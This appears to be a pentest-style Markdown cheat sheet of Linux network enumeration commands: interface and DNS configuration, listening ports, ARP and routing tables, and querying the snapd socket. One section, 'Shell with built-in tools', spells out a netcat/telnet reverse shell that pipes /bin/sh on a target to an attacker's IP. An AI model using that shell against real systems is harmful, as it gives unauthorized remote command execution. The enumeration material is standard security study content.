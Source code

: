 - Interface Information
    ```
    /sbin/ifconfig -a
    cat /etc/network/interfaces
    cat /etc/sysconfig/network
    ```
- Network configuration
    ```
    cat /etc/resolv.conf
    cat /etc/sysconfig/network
    cat /etc/networks
    iptables -L
    hostname
    dnsdomainname
    ```
- Monitor network communication
    ```
    lsof -i
    lsof -i :80
    grep 80 /etc/services
    netstat -antup
    netstat -antpx
    netstat -tulpn
    chkconfig --list
    chkconfig --list | grep 3:on
    last
    w
    ```
- Cached IP and Mac Information
    ```
    arp -e
    route
    /sbin/route -nee
    ```
- Change IP
    ```
    ifconfig eth0 192.168.1.115
    ifconfig eth0 192.168.1.115 netmask 255.255.255.0 broadcast 192.168.1.255
    ```
- Shell with built-in tools
    ```
    nc -lvp 4444### Attacker. Input (Commands)
    nc -lvp 4445### Attacker. Ouput (Results)
    telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445### On the targets system. Use the attackers IP!
    ```
  - <https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/>
- `AF_UNIX` - Used to communicate between processes on the same machine
- `AF_INET` and `AF_INET6` - Used for processes to communicate over a network connection.
-  Interact with AF_UNIX Socket
    ```
    nc -U /run/snapd.socket
    GET / HTTP/1.1
    Host: 127.0.0.1
    ```
- Process ID of a port: `fuser -n tcp (PORT NUMBER)` `ps aux | grep $(fuser -n tcp 45295 | awk '{print $2}')`
